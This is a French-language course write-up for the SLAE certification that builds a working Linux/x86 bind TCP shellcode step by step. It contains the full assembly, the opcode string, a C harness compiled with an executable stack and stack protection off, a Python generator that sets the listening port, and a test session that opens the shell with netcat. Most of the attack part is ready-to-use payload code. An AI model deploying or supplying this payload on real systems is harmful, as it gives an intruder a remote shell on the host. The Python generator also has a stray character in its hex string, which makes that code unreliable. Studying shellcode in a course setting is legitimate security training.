





# Assignement 1 #

Dans le premier exercice, il est demande de réaliser un shellcode permettant d'obtenir un Shell Bind TCP.

L'idée ici est dans un premier temps de créer un socket, de le lier à un port puis de le mettre en écoute passive afin d'accepter les connexions entrantes. Les sorties standards stdin, stdout et stderr sont redirigées afin de pouvoir être utilisées une fois la connexion établie par un shell distant. 

## Création d'un socket ##

La principale référence bibliographique est la documentation des appels systèmes http://man7.org/linux/man-pages/man2/socketcall.2.html. L'appel socketcall est utilisé pour définir les actions sur les sockets en fonction du champ call. La valeur 1 indique que c'est la création d'un socket qui nous interesse. Il s'agit ici d'indiquer un domain, un type et un protocol. 
Nous prenons AF_INET pour le domain soit la valeur 2, SOCK_STREAM pour le type, valeur 1 et pour le protocol nous laissons la valeur 0.

```c
	xor ebx, ebx 		; ebx = 0
	mul ebx			; eax=ebx=edx = 0
	push ebx		; push 0 onto the stack
	inc ebx			; ebx = 1
	push ebx		; push 1 onto the stack
	push byte 0x2		; push 2 onto the stack
	mov ecx, esp		; set ecx to the address of our args
	mov al, 0x66		
	int 0x80		; make the syscall socketcall(socket(2,1,0))
```

## Création du binding ##

Nous sauvegardons dans un premier temps le resultat de la création du socket dans edx. Etant donné le prototype de la fonction bind présenté ci-dessous nous devrions avoir les valeurs suivantes:
bind(edx, [2,4444,0], 16)

```c
	; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
	; bind(sockfd, [AF_INET, PORT, INADDR_ANY], 16)

	xchg eax, edx		; save sockfd into edx
	pop ebx			; set ebx = 2 (bind)
	pop esi			; pop 1
	push word 0x5c11	; push 4444 port onto the stack
	push word bx		; push 2 onto the stack
	mov ecx, esp		; set ecx the address of our args
	push 0x10		; push 16
	push ecx		; push address of our args
	push edx		; push sockfd
	mov ecx, esp		; ecx = end of the stack
	mov al, 0x66   		
	int 0x80		; make the syscall  socketcall(bind(sockfd, [2,4444,0], 16))

```
La pile ressemble maintenant au schéma ci-dessous:

<a href="../assets/images/stack_1.png"></a>


## Ecoute des communications passives ##

eax va contenir le retour de la fonction et dans le cas d'une réussite c'est la valeur 0 qui sera attribuée http://man7.org/linux/man-pages/man2/bind.2.html.


```c
	; Preparing to listen the incoming connection (passive socket)
	; int listen(int sockfd, int backlog);
	; listen(sockfd, 0);

	mov [ecx+0x4], eax	; we use the stack (ebx is still in the stack and ecx+4 will be set to 0)
	mov bl, 0x4		; syscall listen
	mov al, 0x66		
	mov ecx, esp
	int 0x80		; make the syscall socketcall(listen(sockfd,0))
```

<a href="../assets/images/stack_2.png"></a>

## Accepter les communications entrantes ##

Nous allons pour cette partie, utiliser cette forme  
accept(sockfd, NULL, NULL).

```c
	; Accepting the incoming connection
	; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
	; ecx contient la valeur de sockfd
	; accept(sockfd, NULL, NULL)

	mov [ecx+0x8], eax	; we use the stack to put the second 0
	mov bl, 0x5		; syscall accept
	mov al, 0x66	
	mov ecx, esp
	int 0x80		; make the syscall socketcall(accept(sockfd,0,0))
```

<a href="../assets/images/stack_3.png" ></a>

## Redirection ##

Ici, nous redirigeons les 3 sorties vers le socket via l'appel système dup2.

```c
	xchg ebx, eax

	xor ecx, ecx
	mov cl, 0x2
_:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns _

```

## Exécution du shell ##

nous allons pour cela utiliser execve, int execve(const char *filename, char *const argv[], char *const envp[]) afin de lancer un shell.
Il sera de la forme execve("/bin/sh", NULL, NULL).
Puis enfin, le shell(/bin/sh) est exécuté une fois la connexion établie.

```c
	xor ecx,ecx		; ecx = 0
	mul ecx			; eax = edx =ecx = 0
	push eax		; push 0 onto the stack
	push 0x68732f2f		; push //bin/sh
	push 0x6e69622f
	mov ebx, esp		; save esp into ebx
	mov al, 0xb		
	int 0x80		; make the syscall execve("/bin/sh", NULL, NULL)	
```


## Code complet ##

```c
; SLAE - Assignment #1: Shell Bind TCP Shellcode (Linux/x86)
; Author: Alain Menelet 
; StudentID - SLAE-3763
; Tested on Ubuntu 16.14.03 LTS
; https://github.com/xophidia/Shellcode/blob/master/compile.sh


global _start

section .text

_start:

	; Create a socket

	xor ebx, ebx 		; ebx = 0
	mul ebx			; eax=ebx=edx = 0
	push ebx		; push 0 onto the stack
	inc ebx			; ebx = 1
	push ebx		; push 1 onto the stack
	push byte 0x2		; push 2 onto the stack
	mov ecx, esp		; set ecx to the address of our args
	mov al, 0x66		; syscall socketcall
	int 0x80		; make the syscall socketcall(socket(2,1,0))

	; Bind to a port

	xchg eax, edx		; save sockfd into edx
	pop ebx			; set ebx = 2 (bind)
	pop esi			; pop 1
	push word 0x5c11	; push 4444 port onto the stack
	push word bx		; push 2 onto the stack
	mov ecx, esp		; set ecx the address of our args
	push 0x10		; push 16
	push ecx		; push address of our args
	push edx		; push sockfd
	mov ecx, esp		; ecx = end of the stack
	mov al, 0x66
	int 0x80		; make the syscall  socketcall(bind(sockfd, [2,4444,0], 16))

	; Listen a connection

	mov [ecx+0x4], eax	; we use the stack (ebx is still in the stack and ecx+4 will set to 0)
	mov bl, 0x4		; syscall listen
	mov al, 0x66		
	mov ecx, esp
	int 0x80		; make the syscall socketcall(listen(sockfd,0))

	; Accept

	mov [ecx+0x8], eax	; we use the stack to put the second 0
	mov bl, 0x5		; syscall accept
	mov al, 0x66	
	mov ecx, esp
	int 0x80		; make the syscall socketcall(accept(sockfd,0,0))


	; Redirect stdin, stdout and stderr

	xchg ebx, eax		; we save eax

	xor ecx, ecx
	mov cl, 0x2		; ecx = 2
_:
	mov al, 0x3f		; syscall dup2
	int 0x80
	dec ecx
	jns _

	; execute the shell /bin/sh

	xor ecx,ecx		; ecx = 0
	mul ecx			; eax = edx =ecx = 0
	push eax		; push 0 onto the stack
	push 0x68732f2f		; push //bin/sh
	push 0x6e69622f
	mov ebx, esp		; save esp into ebx
	mov al, 0xb		
	int 0x80		; make the syscall execve("/bin/sh", NULL, NULL)


```

## Compilation ## 

Le code est ensuite compilé :

```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x5b\x5e\x66\x68\x11\x5c\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\xb0\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\x89\xe1\xcd\x80\x89\x41\x08\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\xf7\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

int main()
 {
 
         printf("taille %d\n", strlen(code));
 
         int (*ret)() = (int(*)())code;
 
         ret();
 
         return 0;
 
 }

gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode
```


## Exécution ##

Sur le premier terminal:

<a href="../assets/images/ass1_f1.png"></a>

Sur le second terminal: 

<a href="../assets/images/ass1_f2.png"></a>

## Permettre la saisie du port ##

Pour cette partie, nous utilisons un script python.

```python
#!/usr/bin/env python

import argparse
import struct

def main():
    parser = argparse.ArgumentParser(description="Bind TPC shell")
    parser.add_argument('--port', dest="port", default=4444, type=int, help="Put the port number", required=True)
    args = parser.parse_args()
    port = args.port

    shellcode="\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x5b\x5e\x66\x68"+struct.pack("!H",port)+"\x66\x53\x89\xe1\x6a+\x10\x51\x52\x89\xe1\xb0\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\x89\xe1\xcd\x80\x89\x41\x08\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\xf7\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80");


    print '"' + ''.join('\\x%02x' % ord(c) for c in shellcode) + '";'

if __name__=='__main__':
    main()

```

### Test ###

```c
python bind_final.py --port 1234
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x5b\x5e\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\xb0\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\x89\xe1\xcd\x80\x89\x41\x08\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\xf7\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
````

Nous recompilons comme lors de l'exemple précédent puis testons le tout.

```c
./test_shellcode
tcp        0      0 0.0.0.0:1234            0.0.0.0:* LISTEN      2678/test_shellcode

nc localhost -p 1234 
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

StudentID - SLAE-3763